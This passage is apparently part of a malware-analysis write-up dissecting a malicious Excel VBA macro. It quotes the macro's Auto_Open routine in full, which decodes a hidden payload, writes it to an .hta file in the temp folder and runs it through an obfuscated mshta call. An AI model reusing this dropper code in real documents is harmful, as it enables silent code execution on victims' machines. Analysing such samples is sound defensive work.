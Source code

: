 <figure><img src=".gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

In the source code lies two extremely suspicious functions that was obfuscated. They’re just normal base64 encode and decode process. How do I know? Just guessing based on output of olevba and some of signatures in `LeOyoqoF` and `hdYJNJmt` function.

Jumping to `Auto_Open` function which is our main target, we can see how this macro works.

```vba
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

VBA macros can automatically run itself by Auto\_Open or Workbook\_Open events. These both can execute by opening the excel files manually and click `Enable Content` button.

[https://www.pcreview.co.uk/threads/auto\_open-vs-workbook\_open.953960/](https://www.pcreview.co.uk/threads/auto\_open-vs-workbook\_open.953960/)

Back to the macro, first it declares two variables are `fHdswUyK` and `GgyYKuJh`. Then it called `Application.Goto()` method. This will make the program to select `JLprrpFr` procedure [Link](https://learn.microsoft.com/en-us/office/vba/api/excel.application.goto).
